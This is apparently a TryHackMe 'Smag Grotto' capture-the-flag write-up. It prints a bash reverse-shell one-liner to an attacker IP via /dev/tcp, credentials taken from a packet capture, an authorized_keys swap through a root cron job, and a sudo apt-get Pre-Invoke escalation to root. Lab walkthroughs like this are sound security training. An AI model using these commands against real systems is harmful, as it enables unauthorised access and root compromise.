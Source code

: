 # Smag Grott Tryhackme Writeup

http://10.10.229.183/mail/ In this page download dHJhY2Uy.pcap file


wireshark dHJhY2Uy.pcap it gives vhost and creds

	development.smag.thm

	username=helpdesk&password=cH4nG3M3_n0w

after login it asks for enter cammand.

bash -c "bash -i >& /dev/tcp/10.9.172.114/9001 0>&1"

check ur NC!

```bash
┌──(arundhanush㉿kali)-[~]
└─$ nc -nlvp 9001 
Listening on 0.0.0.0 9001
Connection received on 10.10.229.183 33012
bash: cannot set terminal process group (723): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$
```

## www-data to user

check crontab

```bash
www-data@smag:/home/jake$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
cat: /etc/cron.weekly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#

```

crontab copy's some file to jake .ssh

nano /opt/.backups/jake_id_rsa.pub.backup

--------copy paste ur authorized keys--------

```bash
┌──(arundhanush㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa jake@10.10.229.183                                      130 ⨯
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$
```

## Privesc

```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root
```